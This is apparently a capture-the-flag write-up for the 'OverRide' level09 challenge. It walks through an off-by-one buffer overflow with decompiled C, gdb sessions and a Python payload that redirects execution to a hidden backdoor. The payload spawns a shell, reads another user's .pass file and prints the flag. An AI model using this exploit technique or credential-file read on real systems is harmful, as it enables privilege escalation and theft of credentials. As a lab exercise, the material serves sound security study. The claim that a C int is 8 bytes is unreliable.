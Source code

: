 # 09 - Buffer overflow (2)
> README by [jchene](https://github.com/jchene)

We have a binary named level09 at /home/users/level09/

It is owned by `level09` and has a `setuid bit`

The program is divided in 5 small functions: `main` `handle_msg` `set_username` `set_msg` and `secret_backdoor`

The `main` function only prints a text and calls the `handle_msg` function before returninc
int main(void)
{
    puts(
        "--------------------------------------------\n"
        "|   ~Welcome to l33t-m$n ~    v1337        |\n"
        "--------------------------------------------");
    handle_msg();
    return 0;
}
```

The `handle_msg` function first define some space in memory and initialise it, then calls the `set_username` and `set_msg` with the memory starting address as argument brefore printing and returning

```c
int handle_msg()
{
    char v1[140];
    int v2;
    int v3;
    int v4;
    int v5;
    int v6;
    int v7;

    v2 = 0;
    v3 = 0;
    v4 = 0;
    v5 = 0;
    v6 = 0;
    v7 = 140;
    set_username((int)v1);
    set_msg((int)v1);
    return puts(">: Msg sent!");
}
```

The `set_username` function reads 128 bytes on the standard input and copies the 41 first characters (41 bytes) into the memory at `memStart + 140`

```c
int set_username(int memStart)
{
    char username[140];
    int i;

    memset(username, 0, 128);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(username, 128, stdin);
    for (i = 0; i <= 40 && username[i]; ++i)
        *(char *)(memStart + i + 140) = username[i];
    return printf(">: Welcome, %s", (const char *)(memStart + 140));
}
```

The `set_msg` function reads 1024 bytes from the standard input and copies `len` characters into the memory starting at memStart

`len` is a int located at memStart + 180

```c
char *set_msg(int memStart)
{
    char msg[1024];
    int len;

    memset(msg, 0, sizeof(msg));
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(msg, 1024, stdin);
    len = *(int *)(memStart + 180);
    return strncpy((char *)memStart, msg, len);
}
```

Finally the `secret_backdoor` function reads a 128 bytes long command inside the standard input and executes it using `system`

```c
int secret_backdoor()
{
    char command[128];

    fgets(command, 128, stdin);
    return system(command);
}
```

To better understand the memory management here let's take a look at `handle_msg` memory space:

```c
    char v1[140];
    int v2;
    int v3;
    int v4;
    int v5;
    int v6;
    int v7;

    v2 = 0;
    v3 = 0;
    v4 = 0;
    v5 = 0;
    v6 = 0;
    v7 = 140;
```

We have 140 bytes inside v1 (char size = 1 byte) and 8 bytes inside each of the 6 int (int64 size = 8 bytes) for a total of 140 + 48 = 188 bytes

The first 140 bytes are used to store the message

```c
//from set_msg
return strncpy((char *)memStart, msg, len);
```

The next 40 bytes sould be used to store the username

```c
//from set_username
for (i = 0; i <= 40 && username[i]; ++i)
    *(char *)(memStart + i + 140) = username[i];
```

And the last 8 bytes are used to store the length of the message

```c
//from main
v7 = 140;
//from set_msg
len = *(int *)(memStart + 180);
```

We can observe a small mistake inside the `set_username` function

The `for` loop copies 41 bytes instead of 40 because of the `<=` symbol which means we can overflow the `username` buffer to modify the length copied inside the `msg` buffer which can lead to another overflow

Maybe we can use this to overwrite the `handle_msg` return address to the address of the `secret_backdoor`

Let's use `gdb` to prove this flaw

First let's get the address of the `secret_backdoor` function

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

Now let's try to overwrite the `len`, we will input 40 'a' and a 'Z' character (dec 90, hex 5A) inside the username and look if the `strncpy` parameter was changed

```
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaZ
```

```
(gdb) disas
Dump of assembler code for function set_msg:
...
=> 0x00005555555549c6 <+148>:   callq  0x555555554720 <strncpy@plt>
```

```
(gdb) info reg
rdx            0x5a     90
```

The third parameter of `strncpy` (`rdx`) was modified successfully now we can try to overflow the `msg` buffer and overwrite the return address of `handle_msg`

```
Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) disas
Dump of assembler code for function handle_msg:
...
   0x0000555555554931 <+113>:   retq

(gdb) b*0x0000555555554931
Breakpoint 2 at 0x555555554931

(gdb) r < <(python -c "print(40*'a'+'\xff'+300*'b')")

Breakpoint 5, 0x0000555555554931 in handle_msg ()
(gdb) info frame
 rip = 0x555555554931 in handle_msg; saved rip 0x6262626262626262
```

It worked now we can fuzz and find the right offset before inserting the address

In this case the offset is 286, let's try to insert the `secret_backdoor` address

```
Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) disas
Dump of assembler code for function handle_msg:
...
   0x0000555555554931 <+113>:   retq

(gdb) b*0x0000555555554931
Breakpoint 2 at 0x555555554931

(gdb) r < <(python -c "print(40*'a'+'\xff'+286*'b' +'\x8c\x48\x55\x55\x55\x55\x00')")

Breakpoint 5, 0x0000555555554931 in handle_msg ()
(gdb) info frame
 rip = 0x555555554931 in handle_msg; saved rip 0x55555555488c
```

We have successfully replaced the return address, we can confirm it leads us to the `secret_backdoor` function

```
(gdb) set step-mode on
(gdb) s
0x000055555555488c in secret_backdoor ()
```

Now we can exploit that in real mode

```
level09@OverRide:~$ (python -c "print(40*'a'+'\xff'+286*'b'+'\x8c\x48\x55\x55\x55\x55\x00')"; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

The flag is here

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
